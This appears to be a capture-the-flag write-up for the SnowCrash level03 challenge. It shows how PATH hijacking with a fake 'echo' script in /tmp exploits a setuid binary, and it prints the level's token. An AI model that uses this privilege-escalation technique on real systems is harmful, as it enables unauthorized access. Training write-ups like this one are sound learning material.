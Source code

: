 The user's home contains a binary.

Here are the informations that we got about it:

- It is owned by `flag03`
- It process the following instruction: `/usr/bin/env echo Exploit me`

So we could try to fake the `echo` command and force it to print its own token.

In order to do this, we will create an executable file in `/tmp/echo` containing the following:

```bash
#!/bin/bash

/bin/cat /home/flag/flag03/README.txt
```

Like this:

```bash
echo '#!/bin/bash /bin/cat /home/flag/flag03/README.txt' > /tmp/echo
```

Give this fake echo the enhanced rights:

```bash
chmod 777 /tmp/echo
```

We also need to modify the PATH to change the source of the `echo` binary.

```bash
export PATH=/tmp:/usr/bin/env
```

This produce the following error:

```bash
/bin/bash: /bin/cat /home/flag/flag03/README.txt: No such file or directory
```

I got the feeling that I'm following the good path. I'll just scout a little more before planning my next attack.

The solution was in fact a lot simpler.

I just had to edit my fake `echo` to:

```bash
#!/bin/getflag
```

And then, running the `level03` binary gave me the token.

```bash
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
